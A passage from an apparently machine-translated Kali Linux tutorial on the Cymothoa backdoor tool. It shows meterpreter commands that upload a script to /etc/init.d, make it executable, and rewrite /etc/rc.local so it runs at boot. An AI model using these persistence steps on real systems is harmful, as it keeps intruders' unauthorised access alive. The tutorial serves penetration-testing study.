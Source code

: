The Script

通过按 Cntrl+c &返回到 meterpreter shell，将脚本上传到/etc/init.d

```
meterpreter> upload cym.sh /etc/init.d/ <replace cym.sh by your filename>
```

通过给予 shell command & change 权限，再次进入 shell。

```
meterpreter> shell 
chmod +x /etc/init.d/cym.sh <replace by your file>
```

[![cymothoa](img//0878dd4f545dcbe85baf6ebd8617c6c8.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa7/)

Uploading the Script

现在是最重要的部分。我们必须让脚本在启动时运行。这很简单，只需在/etc/rc.local 中添加一个条目。

此外，如果我们对文件(rc.local)进行 cat，那么在末尾会有一条语句“exit 0”。在此之后附加的任何语句都不会被执行。所以我们必须删除最后一行，添加新行，然后添加旧的退出行。

```
command: sed -i '$d' /etc/rc.local 
command: echo "sh /etc/init.d/cym.sh" >> /etc/rc.local 
command: echo "exit 0" >> /etc/rc.local
```

通过以下方式确保

```
command: tail /etc/rc.local
```

[![cymothoa](img//2f79a23d67f0c68e286fee03c89b3985.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa9/)
